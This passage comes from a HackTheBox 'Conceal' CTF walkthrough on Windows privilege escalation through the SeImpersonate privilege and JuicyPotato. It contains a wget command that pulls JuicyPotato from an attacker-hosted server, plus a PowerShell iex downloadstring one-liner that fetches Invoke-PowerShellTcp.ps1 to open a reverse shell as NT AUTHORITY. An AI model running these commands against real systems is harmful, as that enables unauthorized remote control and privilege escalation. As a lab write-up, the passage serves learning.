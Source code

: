 
We can see we have the `SeImpersonate` privilege enabeld. Let's check the OS version to determine how to exploit this:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

![sysinfo-26](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Conceal/img/sysinfo-26.png)


We can see the target is running a Windows 10 Enterprise, we can use [JuicyPotato](https://github.com/ohpe/juicy-potato). Let's grab a copy of `JuicyPotato` to our working directory and host it via a python
server. 


Then we need to find a directory we can write to on the target. I found that `C:\users\Destitute\appdata\local\Temp` works. Once there, we can download the file with:

```cmd
wget "http://10.10.14.49/JuicyPotato.exe" -OutFile "C:\users\Destitute\appdata\local\Temp\jp.exe"
```


![dir-27](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Conceal/img/dir-27.png)


Now we can use the following command to fetch `Invoke-PowerShellTcp.ps1` and connect back to our target as NT-AUTHORITY:

```cmd
powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.49/Invoke-PowerShellTcp.ps1')
```
